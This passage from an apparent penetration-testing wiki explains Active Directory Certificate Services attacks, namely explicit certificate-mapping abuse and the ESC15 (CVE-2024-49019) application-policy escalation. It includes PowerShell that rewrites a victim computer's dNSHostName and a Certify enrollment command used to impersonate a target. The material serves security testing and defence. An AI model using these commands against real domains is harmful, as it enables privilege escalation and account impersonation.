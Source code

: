 In this example, the target has the explicit mapping value `X509:<S>CN=TARGET`. One must change the `dNSHostName` of the victim (in this case a computer) to equal `$TARGET`.

{% tabs %}
{% tab title="UNIX-like" %}
//TO DO
{% endtab %}

{% tab title="Windows" %}
From Windows systems, with PowerShell the `cn` attribute of the victim must be overwritten to be equal to `$TARGET.domain.local`.

```powershell
$victim = [ADSI]"LDAP://CN=$VICTIM,CN=Computers,DC=domain,DC=local"
$victim.Properties["dNSHostName"].Value = $TARGET
$victim.CommitChanges()
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.

```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE /machine
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.
{% endtab %}
{% endtabs %}

### Arbitrary application policy (ESC15 - CVE-2024-49019) <a href="#esc15-cve-2024-49019-arbitrary-application-policy" id="esc15-cve-2024-49019-arbitrary-application-policy"></a>

{% hint style="info" %}
This privilege escalation has been marked as [CVE-2024-49019](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019) by Microsoft, and will therefore no longer be exploitable on patched systems.
{% endhint %}

By default, the X509 standard uses EKUs to indicate the possible uses of a certificate. Under Windows, a field called `Application Policy` is added to certificates, and this does the same thing as EKUs, but with a few more options. If both EKUs and _application policies_ are present in a certificate, the latter takes precedence.

It turns out that if a certificate template uses **version 1** of the certificate templates, authorises the SAN specification, and if it is possible to enrol on it, then it is possible to request a certificate by specifying an arbitrary user and requesting an arbitrary _application policy_.

{% hint style="success" %}
Note, however, that specifying "Client Authentication" in _application policy_ will only allow **SChannel authentication and not PKINIT**. On the other hand, by specifying "Certificate Request Agent" (`1.3.6.1.4.1.311.20.2.1`), the certificate can be used as an [ESC3](certificate-templates.md#certificate-agent-eku-esc3).
{% endhint %}

You can see the ESC15 as an [ESC2 ](certificate-templates.md#any-purpose-eku-esc2)with more steps.
